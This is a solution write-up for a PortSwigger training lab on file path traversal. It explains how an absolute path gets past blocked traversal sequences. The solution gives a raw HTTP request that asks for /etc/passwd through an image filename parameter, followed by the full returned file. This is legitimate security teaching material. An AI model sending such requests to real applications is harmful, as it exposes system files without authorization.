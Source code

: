 # [Lab 2: File path traversal, traversal sequences blocked with absolute path bypass](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)

---

## Description

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

## Solution

The title to this challenge gives away the solution.

View the page source of `/` and note that each product's image is rendered via an `img` take with the `src` attribute set to `/image?filename=$FILENAME`. According to the challenge description, `$FILENAME` is treated as being relative to a default working directory.

Since the application doesn't use an absoluate path to access the file, it is possible to bypass the directory traversal protection mechanism by supplying an absolute path to the target file, `/etc/passwd`.

```http
GET /image?filename=/etc/passwd HTTP/1.1
Host: acbd1fa91fef4160802e6580008200e2.web-security-academy.net
Cookie: session=9cpU9yURm7Taiq50VGtLecg5ddDbY1RY
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

```txt
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1205

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
carlos:x:2002:2002::/home/carlos:/bin/bash
user:x:2000:2000::/home/user:/bin/bash
elmer:x:2099:2099::/home/elmer:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```
